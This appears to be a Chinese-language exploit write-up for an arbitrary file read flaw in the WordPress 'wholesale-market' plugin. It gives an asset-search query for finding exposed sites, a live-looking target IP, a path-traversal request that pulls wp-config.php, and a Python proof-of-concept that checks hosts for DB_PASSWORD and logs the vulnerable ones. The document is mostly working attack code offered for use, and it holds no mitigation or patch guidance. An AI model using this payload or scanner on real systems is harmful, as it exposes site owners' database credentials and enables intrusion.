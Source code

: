 ## 一、资产搜索

```
body="wp-content/plugins/wholesale-market"
```

## 二、网站测试

```
https://213.159.208.2
```

## 三、验证漏洞

拼接api

```
/wp-admin/admin-ajax.php?action=ced_cwsm_csv_import_export_module_download_error_log&tab=ced_cwsm_plugin&section=ced_cwsm_csv_import_export_module&ced_cwsm_log_download=../../../wp-config.php
```

![image-20240905180302735](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240905180302735.png)

## 四、POC

```
def poc(target):
    payload = "/wp-admin/admin-ajax.php?action=ced_cwsm_csv_import_export_module_download_error_log&tab=ced_cwsm_plugin&section=ced_cwsm_csv_import_export_module&ced_cwsm_log_download=../../../wp-config.php"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "DB_PASSWORD" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"[+]该网站{target}存在任意文件读取漏洞\n")
                print(f"[+]该网站{target}存在任意文件读取漏洞")
            else:
                print(f"[+]该网站{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240905181824851](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240905181824851.png)